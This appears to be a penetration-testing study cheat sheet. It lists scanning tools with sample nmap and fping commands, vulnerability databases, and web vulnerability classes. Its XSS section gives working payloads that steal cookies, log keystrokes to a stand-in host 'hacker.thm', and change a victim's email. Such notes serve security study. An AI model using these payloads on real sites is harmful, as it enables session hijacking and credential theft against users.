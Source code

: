 Goal:
- Scanning and enumerating target to find possible vulnerability and access point!

Scanning Methods:
- Network Scanning
- Port Scanning
- Vulnerability Scanning

Network Scanning Tools
- [ping]: ICMP Scanning <ping 192.168.0.1>
- [fping]: Live Hosts <fping -g -r 1 192.168.0.0/24>
- [nmap]: Network Scan <nmap -sn 192.168.100.0/24>
- [hping3]: Packet generator
- [arp-scan]
- [masscan]
- [Wireshark]: Network Sniffing and Packet Analysis
- [Zeek]: Network Monitoring
- [Snort]: Intrusion Detection and Prevention
- [NetworkMiner]: Network Forensics
- [Brim]:Threat Hunting


Port Scanning Tools
- [nmap]

Vulnerability Scanning Tools and Public Repositories
- [Nessus]
- [Nexpose]
- [OpenVAS]
- [Nikto]
- [searchsploit]
- [BurpSuite]
- [ExploitDB] <https://www.exploit-db.com>
- [NVD] <https://nvd.nist.gov/vuln/search>
- [Mitre] <https://www.cve.org>
- [OVAL] <https://oval.cisecurity.org/repository>
- [rapid7] <https://www.rapid7.com/db/>
- [favicon] <https://wiki.owasp.org/index.php/OWASP_favicon_database>


Web Applicatin Vulnerability:
- [IDOR]: Insecure Direct Object Reference
    - plain
    - base64 <https://www.base64decode.org/>
    - hash <https://crackstation.net/>
    - Unpredictable
- [FI]: File inclusion
    - Local File Inclusion
    - Remote File Inclusion
- [PT]: Path Traversal
- [SSRF]: Server-Side Request Forgery
    - regular SSRF
    - Blind SSRF
- [XSS]: Cross-site Scripting
    - Proof Of Concept <script>alert('XSS');</script>
    - Session Stealing <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
    - Key Logger <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
    - Business Logic <script>user.changeEmail('attacker@hacker.thm');</script>
- [RCE]: Remote Code Execution
- [SQLi]: SQL Injection
    - In-Band SQL Injection
    - Blind SQLi
